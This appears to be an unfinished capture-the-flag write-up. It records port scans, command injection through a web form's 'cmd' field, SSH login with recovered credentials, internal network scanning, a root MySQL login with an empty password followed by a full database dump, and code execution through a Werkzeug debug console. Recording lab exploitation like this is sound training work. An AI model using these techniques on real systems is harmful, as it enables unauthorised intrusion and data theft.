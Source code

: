 # Heading level 1

TODO: writeup comes here

# Nmap
```bash
nmap -T4 10.214.1.12 -p28080,22222,22121,30000-30009 -sV -Pn
```
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-17 12:38 CEST
Nmap scan report for 10.214.1.12
Host is up (0.067s latency).

PORT      STATE  SERVICE        VERSION
22121/tcp closed unknown
22222/tcp open   ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
28080/tcp open   http           Werkzeug httpd 3.1.3 (Python 3.11.14)
30000/tcp closed ndmps
30001/tcp closed pago-services1
30002/tcp closed pago-services2
30003/tcp closed amicon-fpsu-ra
30004/tcp closed amicon-fpsu-s
30005/tcp closed unknown
30006/tcp closed unknown
30007/tcp closed unknown
30008/tcp closed unknown
30009/tcp closed unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

# Http

```dirb
dirb http://10.214.1.12:28080/ -z 10
```
```
---- Scanning URL: http://10.214.1.12:28080/ ----
+ http://10.214.1.12:28080/console (CODE:400|SIZE:167)
+ http://10.214.1.12:28080/image (CODE:200|SIZE:129)
```

```bash
curl -s -X POST 'http://10.214.1.12:28080/' --data-raw 'cmd=ls /usr/local/bin /usr/local/sbin /usr/local/bin /usr/sbin /usr/bin /sbin /bin' | sed -n '/<pre/,/<\/pre>/p' > fuzz.txt
ffuf -w fuzz.txt -u http://10.214.1.12:28080/ -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'cmd=FUZZ' -t 10 -fr 'Try again'
```

* ls
* pwd
* whoami

+ whoami -> ssh user: `webuser`
+ image -> ssh pass: `kMTaJ8XR1SDCMV`

# SSH
```bash
sshpass -p kMTaJ8XR1SDCMV ssh webuser@10.214.1.12 -p 22222
sshpass -p kMTaJ8XR1SDCMV ssh webuser@10.214.1.12 -p 22222 -t /bin/bash --norc
```
userflag.txt
svg -> qr -> tinyurl -> yt rickroll (orig)
`https://tinyurl.com/3z6uwatv` -> `https://www.youtube.com/watch?v=dQw4w9WgXcQ`

# Sudo
/etc/bash.bashrc
```
alias sudo='echo "Nice try, my friend 8)"'
alias unalias='echo "UUU ALMOST!!"'
alias alias='echo "You thought, I did not changed this??"'
```

/usr/bin/sudo renamed to sudo.real and replaced with a sinple print
```
-e #!/bin/bash
echo "sudo has gone"
```

# Nmap

```bash
./nmap -T4 172.18.0.1/24 -p1-65535
```
```
Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2025-10-20 10:27 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.18.0.1
Host is up (0.00029s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
4004/tcp  open  unknown <- VPN chall http, CQ25{c0mmun1cat10n_ch3ck}
5355/tcp  open  hostmon
22121/tcp open  unknown
22222/tcp open  unknown
28080/tcp open  unknown
30000/tcp open  unknown
30001/tcp open  unknown
30002/tcp open  unknown
30003/tcp open  unknown
30004/tcp open  unknown
30005/tcp open  unknown
30006/tcp open  unknown
30007/tcp open  unknown
30008/tcp open  unknown
30009/tcp open  unknown

Nmap scan report for ced6d93eea0b (172.18.0.2)
Host is up (0.000085s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap scan report for challenges-db-1.challenges_internal_net (172.18.0.3)
Host is up (0.00041s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE
3306/tcp  open  mysql
33060/tcp open  unknown

Nmap scan report for challenges-web-1.challenges_internal_net (172.18.0.4)
Host is up (0.00064s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
8080/tcp open  http-alt
```
# MySQL

```bash
mysql -h 172.18.0.3 -P 3306 -u root --password=
mysqldump -h 172.18.0.3 -P 3306 -u root --password= --all-databases > all_databases.sql
```

```
mysql> SHOW databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
4 rows in set (0.01 sec)

mysql> SHOW VARIABLES LIKE "secure_file_priv";
+------------------+-----------------------+
| Variable_name    | Value                 |
+------------------+-----------------------+
| secure_file_priv | /var/lib/mysql-files/ |
+------------------+-----------------------+
1 row in set (0.01 sec)
```

# Werkzeug console

```bash
curl -v -X POST http://10.214.1.12:28080/console -H 'Host: localhost'
```

`127-380-526`

`print(subprocess.check_output(["sh", "-c", "whoami"], text=True))`

# Flag
Flag was missing